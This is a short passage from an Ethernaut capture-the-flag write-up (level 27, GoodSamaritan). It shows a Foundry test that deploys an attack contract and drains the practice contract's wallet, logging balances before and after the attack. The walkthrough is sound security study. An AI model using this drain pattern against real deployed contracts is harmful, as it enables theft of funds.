 ## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/27-GoodSamaritan.t.sol))

```solidity

        // 1. Attacker creates `GoodSamaritanAttack` contract providing the address of the `GoodSamaritan` contract.
        GoodSamaritanAttack goodSamaritanAttack = new GoodSamaritanAttack(
            address(ethernautGoodSamaritan)
        );

        emit log_named_uint(
            "Balance of GoodSamaritan Wallet before attack",
            ethernautGoodSamaritan.coin().balances(
                address(ethernautGoodSamaritan.wallet())
            )
        );

        emit log_named_uint(
            "Balance of GoodSamaritanAttack contract before attack",
            ethernautGoodSamaritan.coin().balances(address(goodSamaritanAttack))
        );

        emit log_string(
            "--------------------------------------------------------------------------"
        );

        // 2. Attacker calls the `attack()` function in the `GoodSamaritanAttack` contract that is invoking `requestDonation` on `GoodSamaritan` contract. The code proceeds to execute the `wallet.donate10(msg.sender)` function call.
        goodSamaritanAttack.attack();

        emit log_named_uint(
            "Balance of GoodSamaritan Wallet after attack",
            ethernautGoodSamaritan.coin().balances(
                address(ethernautGoodSamaritan.wallet())
            )
        );

        emit log_named_uint(
            "Balance of GoodSamaritanAttack contract after attack",
            ethernautGoodSamaritan.coin().balances(address(goodSamaritanAttack))
        );

```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/GoodSamaritan.png)
